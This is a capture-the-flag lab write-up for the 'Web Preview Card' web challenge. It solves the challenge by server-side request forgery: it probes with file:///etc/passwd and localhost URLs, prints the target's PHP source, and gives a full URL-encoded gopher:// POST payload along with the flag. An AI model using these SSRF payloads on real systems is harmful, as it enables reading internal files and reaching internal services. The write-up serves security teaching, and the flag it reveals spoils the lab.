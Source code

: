 ```yaml
---
title: Simple Web 0x12(Lab - Web Preview Card)
tags: [NTUSTWS, CTF, Web]

category: "Security/Course/NTU CS/Web"
---
```


# Simple Web 0x12(Lab - Web Preview Card)
<!-- more -->
###### tags: `NTUSTWS` `CTF` `Web`
Challenge: http://h4ck3r.quest:8500/

## Background
[Web Hacking | 續章【EDU-CTF 2021】](https://youtu.be/hWC-Evt-sBc?t=6136)
[網站安全🔒 伺服器端請求偽造 SSRF 攻擊 — 「項莊舞劍，意在沛公」](https://medium.com/程式猿吃香蕉/網站安全-伺服器請求偽造-ssrf-攻擊-項莊舞劍-意在沛公-7a5524926362)

## Exploit - SSRF
When you see a preview function, then it may have SSRF problem.
1. Test it
`file:///etc/passwd` or `http://127.0.0.1`
![](https://i.imgur.com/NKbIlDT.png)

2. Analyze `flag.php`
![](https://i.imgur.com/OGo7biu.png)
    :::spoiler source code
    ```php=
    <?php
    if ($_SERVER['REMOTE_ADDR'] !== '127.0.0.1') die("Only for localhost user.");
    ?>
    <form action="/flag.php" method="post">
        Do you want the FLAG? <input type="text" name="givemeflag" value="no">
        <input type="submit">
    </form>
    <?php
    if (isset($_POST['givemeflag']) && $_POST['givemeflag'] === 'yes')
        echo "FLAG:", getenv('FLAG');
    ```
    :::
    If you want flag, you need visit `/flag.php` as localhost and send a form data with parameter `givemeflag`.
3. Construct package - <font color="FF0000">**gopher**</font>
    ```!
    POST /flag.php HTTP/1.1
    Host: 127.0.0.1
    Content-Length: 14
    Content-Type: application/x-www-form-urlencoded

    givemeflag=yes
    ```
    Transferred by [urlencode](https://www.urlencoder.org/) with `CRLF` type.
Payload: `gopher://127.0.0.1:80/_POST%20%2Fflag.php%20HTTP%2F1.1%0d%0aHost%3A%20127.0.0.1%0d%0aContent-Length%3A%2014%0d%0aContent-Type%3A%20application%2Fx-www-form-urlencoded%0d%0a%0d%0agivemeflag%3Dyes%0d%0a`

4. Then we got flag...

Flag: `FLAG{gopher://http_post}`